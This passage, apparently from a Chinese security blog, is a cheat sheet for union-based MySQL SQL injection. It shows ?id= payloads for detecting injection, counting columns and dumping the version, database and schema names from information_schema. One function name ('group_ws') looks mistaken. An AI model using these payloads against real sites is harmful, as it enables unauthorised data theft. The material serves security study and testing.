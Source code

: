 ```yaml
---
title: 数据库注入
author: 柒妖
top: true
hide: false
cover: true
coverImg: /images/1.jpg
toc: false
mathjax: false
tags:
  - mysql
  - sqlserver
  - access
  - oracle
  - mongodb
date: 2021-02-20 21:57:37
updated: 2021-02-20 21:57:37
permalink: 
urlname: 
categories: 
img: 
password: 
summary: 
---
```


[TOC]



 ## MySql

### **联合查询**

```mysql
# 需要使用的函数
concat() 	# 将多个字串连接为一行输出
group_concat() 	# 可以配合 group by asc/desc 使用
group_ws() 	# 增加分隔符号并将字串连接为一行输出
version() 	# 显示版本
database() 	# 显示当前数据库
union select 	# 联合查询
information_schema.schemata 	# 存储所有库名的位置
schema_name 	# 查库名
table_name 		# 查表名
column_name 	# 查字段名
distinct() 		# 去重
limit 1,1 		# 从第 N 条记录开始, 返回 M 条记录

# 判断注入
?id=0'"\)]}--+		# 判断是否是字符型和闭合情况
?id=0 and 1=1	# 盘点是否是数字型
# 判断显示字段数
?id=0' order by 3 --+	# 回显正常为正确字段数
# 判断显示位置
?id=0' union select 1,2,3 --+
# 查看数据库版本,和当前数据库名
?id=0' union select 1,database(),version() --+
# 查看所有数据库名
?id=0' union select 1,2,schema_name from information_schema.schemata limit 1,1 --+
?id=0' union select 1,2,group_concat(schema_name) from information_schema.schemata --+
# 查看数据库的表名和当前数据库的表名
```